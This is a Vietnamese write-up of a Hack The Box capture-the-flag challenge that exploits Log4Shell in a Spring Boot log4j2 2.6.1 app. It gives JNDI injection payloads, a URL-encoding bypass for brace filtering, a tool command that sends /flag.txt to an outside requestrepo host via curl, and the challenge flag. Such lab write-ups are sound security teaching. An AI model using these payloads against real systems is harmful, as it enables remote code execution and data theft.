 ```
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-log4j2</artifactId>
    <version>2.6.1</version>
</dependency>
```
=> Ở đây có thể xảy ra RCE dựa vào lỗi của Log4j gần đây.
Thử test với payload đơn giản của Log4j:
```
${jndi:ldap://jzj0drqj.requestrepo.com/a}
```
- Nếu như có request DNS tới server của mình có nghĩ là đã trigger thành công.
- Nhưng sau ghi send payload trên thì HTTP status response trả về là `400`.

![Website trả về mã 400](https://i.imgur.com/vGPaF38.png)

- Sau khi check các char có trong payload thì thấy được kí tự `{`,`}` là nguyên nhân gây ra lỗi nên payload trên không thể chạy được.
- Ở đây mình thử URL encode 2 kí tự trên thì bypass được và có request tới host của mình.

![Request thành công với input của mình](https://i.imgur.com/qE7OH49.png)
![Có trigger DNS query request](https://i.imgur.com/7E8gHsX.png)

=> Đã trigger thành công lỗi Log4j.

Vậy bây giờ cần RCE để đọc flag vì flag nằm trong thư mục root.

### Exploit
Sử dụng công cụ [JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit/releases/download/v1.0/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar) tạo payload để RCE. Tiến hành tạo payload:
```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C 'curl -X POST @/flag.txt http://14yo1kk2.requestrepo.com' -
A [YOUR_IP]
```
![Danh sách các payload mà tool tạo ra](https://i.imgur.com/0POPCu4.png)

Sẽ tạo ra 3 target để sử dụng nhưng vì mặc định `trustURLCodebase=false` nên sử dụng payload dành cho `trustURLCodebase is false`.

#### Payload
```
GET /api/checkpointbot/check-in?token=$%7Bjndi:rmi://[YOUR_IP]:1099/okrl6h%7D HTTP/1.1
Host: localhost:1337
Connection: close
```

Có thể send payload ở `/api/checkpointbot/check-in` hoặc `/api/checkpointbot/sheet` vì cả 2 đều xảy ra lỗi Log4j.

**Flag** : `HTB{l0g4j2_g4dg3t_ch4in_55t1_f0r_fun}`

---
*Written by taidh & son*.
